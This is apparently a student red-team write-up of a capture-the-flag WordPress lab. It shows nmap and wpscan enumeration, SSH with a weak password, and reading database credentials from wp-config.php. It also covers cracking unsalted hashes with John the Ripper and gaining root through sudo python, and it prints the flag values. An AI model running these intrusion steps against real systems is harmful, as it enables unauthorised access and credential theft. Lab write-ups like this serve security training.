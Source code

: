 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV -O 192.168.1.110/24
  
  Nmap scan report for 192.168.1.110
  Host is up (0.0088s latency)
  Not shown: 995 closed ports
  PORT      STATE  SERVICE         VERSION
  22/tcp    open   ssh             OpenSSH 6.7p1 Debian 5_deb8u4 (protocol 2.0)
  80/tcp    open   http            Apache httpd 2.4.10 ((Debian))
  111/tcp   open   rpcbind         2-4 (RPC #100000)
  139/tcp   open   netbios-ssn     Samba smdb 3.X - 4.X (workgroup: WORKGROUP)
  445/tcp   open   netbios-ssn     Samba smdb 3.X - 4.X (workgroup: WORKGROUP)
  MAC Address: 00:15:5D:00:04:11 (Microsoft)
  Running: Linux 3.X|4.X
  OS CPE: cpe:/o:/linux:linux_kernel:3  cpe:/o:linux;linux_kernel:4
  OS details: LInux 3.2 - 4.9
```

This scan identifies the services below as potential points of entry:
- Target 1
  - ssh (port 22)
  - http (port 80)
  - rpcbind (port 111)
  - netbios-ssn (port 139)
  - netbios-ssn (port 445)


The following vulnerabilities were identified on each target:
- Target 1
  - Wordpress User enumeration (CVE-2009-2335)
    - wpscan can identify valid usernames
  - Insecure passwords
    - One user has his username as his password. Other user's password is only 6 characters long, containing only letters and numbers.
  - MySQL Login credentials are located in wordpress configuration files
  - Unsalted password hashes contained in MySQL database
    - password hash for Steven was easy to crack due to being unsalted.
  - Steven has sudo access for python.
    - Running python with sudo can easily get one root access.


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: flag1{b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used**
      - wpscan was able to identify two users on the Word Press website hosted by the webserver.
        - wpscan –-url http://192.168.1.110/wordpress -e
        ![Wordpress Users](/images/wpscan-users.PNG)
      - Then, we simply attempted to ssh as these users into the machine. This proved simple, as Michael's password is michael.
        - ssh michael@192.168.1.110
          ![Successful ssh](/images/ssh-michael.PNG)
      - flag 1 was found inside /var/www/html
        - cd /var/www
        - grep -R flag html
          ![flag1](/images/flag1.PNG)
  - `flag2.txt`: flag2{fc3fd58dcdad9ab23faca6e9a36e851c}
    - **Exploit Used**
      - While connected in as michael, flag 2 was found in the website's root directory.
        - found using find / -type f -iname *flag* 2>/dev/null
        - cat /var/www/flag2.txt
          ![flag2](/images/flag2.PNG)
  - `flag3` : flag3{afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
      - The wordpress configuration files contained the same login and password info that is still in use. 
        - cat /var/www/html/wordpress/wp-config.php
          ![wp-config credentials](/images/mysql-logins.PNG)
      - Using those, we could log into MySQL as root.
        - mysql -u root -p

          ![Into MySQL](/images/mysql-in.PNG)
      - Flag 3 was located in the wp_posts table in the wordpress database. We got there with:
        - show databases;
        - use wordpress;
        - show tables;
        - select * from wp_posts;
          ![Flag3](/images/flag3.PNG)
  - `flag4` : flag4{715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - Flag 4 was found by using ssh to log in as steven, and escalating privileges to root.
      - First, we grabbed the password hash for steven from the MySQL table wp_users
        - ![SQL Users](/images/wp-sql-users.PNG)
      - We cracked that on our Kali machine using John the Ripper, giving us his password, which is pink84.
      - steven has sudo privileges for python, so we used that to escalate our privileges to root. AS root, we found flag 4 in /root. (Below is a pic retracing the steps taken.)
        - ![Gaining root and finding flag 4](/images/gaining-flag4.PNG)
        - ![Flag 4](/images/flag4.PNG)
  - With that, all 4 flags have been found.
